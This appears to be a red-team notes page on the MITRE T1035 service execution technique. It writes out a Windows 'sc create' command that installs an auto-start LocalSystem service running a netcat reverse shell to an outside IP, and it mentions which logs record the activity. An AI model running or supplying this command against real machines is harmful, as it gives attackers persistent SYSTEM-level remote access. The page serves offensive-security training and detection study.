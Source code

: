 ```yaml
---
layout: post
title: "t1035 service execution"
date: 2024-06-18
categories: persistence
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /persistence/
---
```


---
description: 'Code Execution, Privilege Escalation'
---

# Service Execution

## Execution

Creating an evil service with a netcat reverse shell:

{% code title="attacker@victim" %}
```csharp
C:\> sc create evilsvc binpath= "c:\tools\nc 10.0.0.5 443 -e cmd.exe" start= "auto" obj= "LocalSystem" password= ""
[SC] CreateService SUCCESS
C:\> sc start evilsvc
```
{% endcode %}

## Observations

The reverse shell lives under services.exe as expected:

![](../../.gitbook/assets/services-nc.png)

Windows security, application, Service Control Manager and sysmon logs provide some juicy details:

![](../../.gitbook/assets/services-logs.png)

![](../../.gitbook/assets/services-shell.png)

## References

{% embed url="https://attack.mitre.org/wiki/Technique/T1035" %}
@spotheplanet

